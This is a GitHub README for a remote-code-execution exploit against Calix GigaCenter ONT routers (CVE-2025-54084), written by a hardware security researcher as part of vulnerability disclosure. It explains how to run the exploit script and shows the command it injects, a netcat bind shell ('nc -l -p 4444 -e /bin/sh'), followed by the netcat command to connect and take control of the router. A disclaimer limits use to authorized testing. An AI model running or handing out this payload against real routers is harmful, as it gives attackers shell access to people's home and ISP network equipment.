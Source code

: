 # RCE-Calix-Gigacenter

![tool](tool.png)

Remote Code Execution (RCE) exploit targeting **Calix Gigacenter ONT routers**, specifically tested on the **Calix 844G-1** model. This exploit takes advantage of a zero-day vulnerability discovered in **February 2025**, now assigned as CVE-2025-54084. The affected routers are: Calix GigaCenter ONT 844E, 844G, 844GE, and 854GE. Finally, there are 4 more zero days discovered, if do you want to read more deatils about this RCE vulnerability and the another zero days, check the post: https://revers3everything.com/calix-case-five-0-days-five-cves/

## ⚠️ Disclaimer
This tool is intended **only for educational and ethical hacking purposes**.  
Do not use it against any device without **explicit authorization**.  
The author is not responsible for any misuse.

## 🛠️ Installation

Only one dependency is required:

```bash
pip install requests
```

## How to Use

Run the exploit script:

```bash
python3 rce-calix-gigacenter.py
```

Once executed, the exploit will inject the following command into the vulnerable router:

```bash
nc -l -p 4444 -e /bin/sh &
```

You will see a message like:

```
Backdoor into the router, try to connect with netcat to the port 4444!
```

Then, connect to the reverse shell with `netcat`:

```bash
nc 169.254.1.2 4444
```

**Enjoy your shell!**

## Exploit Timeline

- **Zero-day discovered:** February 2025
- **CVE Public disclosure:** September 9 2025
[demo-exploit](final-rce-poc.webm)

## Author
**Danilo Erazo** (`@revers3vrything`)  
Hardware Security Researcher and Speaker at:
- Hardwear.io USA 2025
- DEFCON 32, DEFCON33
- Ekoparty 2024 & 2023
- Re//verse 2025, etc

© 2025 Danilo Erazo (@revers3vrything)
